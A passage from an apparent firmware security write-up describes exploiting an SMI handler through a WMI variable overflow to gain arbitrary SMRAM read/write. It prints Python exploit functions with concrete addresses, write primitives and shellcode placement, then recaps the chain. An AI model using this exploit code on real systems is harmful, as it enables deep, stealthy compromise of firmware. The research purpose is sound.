 Now I redirect the call to `fnWriteStatusToMemory` to **0x4AA32138** by writing `0xEA 0xFF` to _0x4AA415A3_:

```
def copy_memcpy(self):
    for idx, b in enumerate(Shellcode.MEM_COPY):
        primitive = b + b"\x00\x00\x00\x00\x00\x00\x00"
        data = self.gen_bad_var_data(
            wmi_memaddr=0x4AA32138
            - 0x2
            + idx,
            write_primitive=primitive,
        )
        self.set_wmi_var(data)
        self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)
        time.sleep(0.200)
```

The last step is to once again overflow the global variable and this time, instead of setting `0x4AA356D8` to a byte, I set it to the physical address containing the `CopyMem()` struct:

```
def patch_call_addr(self):
    primitive = b"\xEA\x00\x00\x00\x00\x00\x00"
    data = self.gen_bad_var_data(
        wmi_memaddr=0x04AA415A3
        + 0x2   # yes, i know
        - 0x2,  # .text:000000004AA415A3 E8 68 EF FF FF => E8 68 EA FF FF
        write_primitive=primitive,
    )
    self.set_wmi_var(data)

    self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)
```

The hard part is over! I can now copy data in and out of SMRAM without limitations.

One last recap of what’s been done:

*   “Access Denied” was zero’d out in the module’s `.data` segment, allowing for a two byte (0x20 0x00 write primitive)
*   Using the 0x20 0x00 primitive, the address of the first parameter passed to `fnWriteStatusToMemory` was updated - there now exists a way to write any byte(s) at an attacker controlled address to another address (albeit as a wide byte)
*   Using the new primitive above, `fnWriteStatusToMemory` was modified so that `0x20 0x00` is no longer prepended to the first parameter when the function is called
*   memcpy shellcode that contains no NULL bytes is written to 0x4AA32138
*   The instruction which calls `fnWriteStatusToMemory` is updated to call 0x4AA32138
*   A src/dest/size struct is written to a writable phyisical address
*   SMI handler is called, overflowing the variable and writing the struct’s address to the .data segment
*   Handler execution flow is redirected to the memcpy shellcode, the memcpy struct is passed as RCX
*   Shellcode executes and performs memcpy
